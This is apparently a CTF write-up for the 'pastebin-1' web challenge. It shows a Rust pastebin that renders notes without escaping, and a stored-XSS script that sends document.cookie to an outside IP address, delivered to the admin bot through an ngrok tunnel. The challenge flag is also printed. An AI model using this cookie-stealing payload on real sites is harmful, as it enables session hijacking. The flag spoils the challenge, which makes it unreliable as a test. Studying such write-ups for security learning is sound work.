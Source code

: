 # Challenge Name: pastebin-1


![date](https://img.shields.io/badge/date-10.07.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![web category](https://img.shields.io/badge/category-Web-blueviolet.svg)   
![value](https://img.shields.io/badge/value-103-blue.svg)  


## Description

Ah, the classic pastebin. Can you get the admin's cookies?

pastebin-1.mc.ax

Admin bot https://admin-bot.mc.ax/pastebin-1 

Author : NotDeGhost

[main.rs](main.rs)

## Detailed solution

Opening the challenge link https://pastebin-1.mc.ax/

![image](https://user-images.githubusercontent.com/72421091/125499621-b9a44b65-1b88-40c2-ba7d-e37cd164b15e.png)

We can create notes

![image](https://user-images.githubusercontent.com/72421091/125499707-4f69ae48-8ca8-4b8c-a5ea-997482c0a6ea.png)
  
```html
<link rel="stylesheet" href="/style.css" /><div class="container">test</div>
```
Let's check the source code [main.rs](main.rs) 

We have a Rust web app, let's check the functions create and view notes 

```rust
async fn create(mut req: Request<State>) -> tide::Result {
    let Paste { content } = req.body_form().await?;
    let id = "abcdefghijklmnopqrstuvwxyz"
        .chars()
        .collect::<Vec<char>>()
        .choose_multiple(&mut rand::thread_rng(), 16)
        .collect::<String>();
    req.state().value.write().unwrap().insert(id.clone(), content);
    Ok(Redirect::new(format!("/view?id={}", id)).into())
}
```

```rust
async fn view(req: Request<State>) -> tide::Result {
    let Page { id } = req.query()?;
    let response = match req.state().value.read().unwrap().get(&id) {
        Some(content) => Response::builder(200)
            .content_type("text/html")
            .body(format!("\
                <link rel=\"stylesheet\" href=\"/style.css\" />\
                <div class=\"container\">\
                    {}\
                </div>\
            ", content)).build(),
        None => Response::builder(404).build()
    };
    Ok(response)
}
```
**Create** function save the POST request data and generate an id to view it with the **view** function

The **view** function output the content inside an html div  

So clearly we can put a javascrit code insid the note 

Let's test it

![image](https://user-images.githubusercontent.com/72421091/125501377-0a7ca4b0-15d5-48ba-b776-de33c720176d.png)

![image](https://user-images.githubusercontent.com/72421091/125501409-f5e35964-9e5a-44ab-bd45-e26fd85e8679.png)

We can use some XSS attacks

As mention in the description we need to seal the admin cookie

We can use some payload to steal the cookie https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md  

```javascript
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>
```
I have some probleme with port forwarding so i'm gonna use ngrok to create an http tunnel

- ngrok http 8000

![image](https://user-images.githubusercontent.com/72421091/125504832-861866f6-e66b-44f5-af52-e9c9150a7d1a.png)

- python http server

![image](https://user-images.githubusercontent.com/72421091/125503384-9e368242-1e94-4cc6-8ed1-7845c0b61cd9.png)

Let's create our payload 

![image](https://user-images.githubusercontent.com/72421091/125503692-56d686b7-b516-4f2b-ab96-dd3717863df4.png)

https://pastebin-1.mc.ax/view?id=cmvqigpkulajysnr

Let's go to the admin portal to submit our malicious note https://admin-bot.mc.ax/

![image](https://user-images.githubusercontent.com/72421091/125503967-0a6aeab7-1a92-4714-875e-507214ea9a16.png)

After submitting, the admin gonna visit our note

![image](https://user-images.githubusercontent.com/72421091/125504702-f9c86244-214c-4217-8fa0-af9d4fef6bfc.png)

We got our flag

## Flag

```

flag{d1dn7_n33d_70_b3_1n_ru57}
```
